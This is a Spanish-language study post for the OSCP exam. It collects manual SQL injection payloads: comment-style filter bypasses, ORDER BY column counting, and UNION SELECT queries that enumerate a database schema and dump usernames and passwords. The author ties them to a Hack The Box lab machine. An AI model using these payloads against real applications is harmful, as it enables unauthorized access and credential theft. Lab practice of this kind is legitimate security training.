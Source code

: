 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#identificar_la_inyeccion">Identificar la inyeccion</a>
- <a href="#consultas_basicas">Consultas basicas</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
El objetivo de este post es agilizar la busqueda de posibles entradas en inyecciones posibles que he visto para entrar en sql y poder tambien almacenar descriptivamente la estructura de sql para enumerar informacion de las bases de datos; ya que en el OSCP no esta permitido el uso de sqlmap y asi tambien ayudarme en la practica de esta intrusion.

## [](#header-2)<a id="identificar_la_inyeccion">Identificar la inyeccion</a>
 En esta seccion pondre algunas de las tipicas formas de pasar algunos filtros para las inyecciones de SQL

 ```SQL
 ' -- -
 )' -- -

  ' #
 )' #

  ' ;
 )' ;

 -- -Para obtener el numero de columnas podemos intentar un 
 ') order by 3 -- -
 
 ```

## [](#header-2)<a id="consultas_basicas">Consultas basicas</a>


El siguiente ejemplo es aplicable en la maquina Overflow de Hack the Box.

En este caso la informacion se listara en el campo 3, ya que es el que esta libre para mostrar la informacion.

 ```SQL
-- - Para listar las bases de datos podemos hacer un:

-- - Para listar las tablas dentro de una bd podemos hacer un:
union select 1,2,table_name from information_schema.tables where table_schema=\"cmsmsbd"\ limit {numero de posicion de la tabla},1-- -

-- - Para listar las columnas dentro de una tabla podemos hacer un:
union select 1,2,column_name from information_schema.columns where table_schema=\"cmsmsbd"\ and table_name=\"cms_users"\ limit {numero de posicion de la columna},1-- -

-- - Para listar los datos de una columna dentro de un mismo campo podemos hacer un:
union select 1,2,group_concat(username, 0x3a, password) from cmsmsdb.cms_users -- -
union select 1,2,sitepref_value from cmsmsdb.cms_siteprefs -- -
 ```